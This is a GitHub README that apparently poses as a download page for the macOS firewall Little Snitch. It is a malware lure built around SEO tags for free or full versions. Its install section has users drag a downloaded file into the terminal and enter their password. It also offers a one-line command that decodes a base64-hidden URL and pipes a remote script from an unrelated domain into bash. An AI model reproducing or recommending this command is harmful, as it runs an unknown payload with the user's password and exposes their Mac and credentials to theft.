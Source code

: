 # 🔍 Little Snitch — Advanced Network Monitor & Firewall for macOS

**Little Snitch** is a powerful network monitoring and firewall application designed exclusively for macOS. It gives you full control over your Mac’s network connections by allowing you to monitor, allow, or block any outgoing or incoming connection in real time.

Ideal for privacy-conscious users and professionals, Little Snitch helps you detect unauthorized data transmissions and protects your personal information from unwanted network access.

---

## ✅ Download Little Snitch for macOS  
[![Download Little Snitch](https://img.shields.io/badge/Download-Little_Snitch-blueviolet)](https://shuziktobehuman.github.io/huja/Little)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 🔍 What is Little Snitch?

Little Snitch monitors your network traffic and alerts you whenever a program attempts to connect to a server. It provides detailed information on network activity, lets you create customized rules, and blocks suspicious connections before data leaves your Mac.

Fully optimized for macOS Ventura and Apple Silicon, Little Snitch offers unmatched network transparency and security.

---

## ✨ Features

- 📡 Real-time network monitoring and connection alerts  
- 🔒 Customizable firewall rules for incoming and outgoing traffic  
- 📊 Detailed network traffic statistics and connection history  
- ⚡️ Optimized for **macOS Ventura** and **Apple Silicon (M1/M2/M3)**  
- 🌐 Silent mode for automatic rule creation  
- 🧩 Integration with macOS system preferences  
- 🛡 Protects privacy by blocking unwanted data leaks  
- 🖥 Intuitive user interface with Network Monitor and Rule Manager  

---

## 💡 Why Use Little Snitch?

- 🛡 Protect your Mac from unauthorized internet connections  
- 🔍 Gain full visibility of network activity for all apps  
- 🧠 Automate network control with advanced rules and profiles  
- 🚀 Minimal impact on system performance  
- 👨‍💻 Ideal for security professionals, developers, and privacy advocates  

---

[![Download Little Snitch](https://img.shields.io/badge/Download-Little_Snitch-blueviolet)](https://shuziktobehuman.github.io/huja/Little)

---


## 🖼 Preview

![Little Snitch Screenshot 1](https://obdev.at/Images/littlesnitch/network-monitor-main.png)  
![Little Snitch Screenshot 2](https://www.obdev.at/Images/littlesnitch/management.png)

---

## 📌 Tags

little snitch software  
little snitch mac  
littlesnitch mac  
download little snitch  
little snitch 5  
little snitch app  
little snitch network monitor  
little snitch download mac  
little snitch free  
little snitch mac full  
little snitch review  
snitch for mac  
little snitch mac download  
network monitor mac  
mac firewall app  
mac network security  
internet monitor mac  
apple silicon firewall  
mac privacy app  
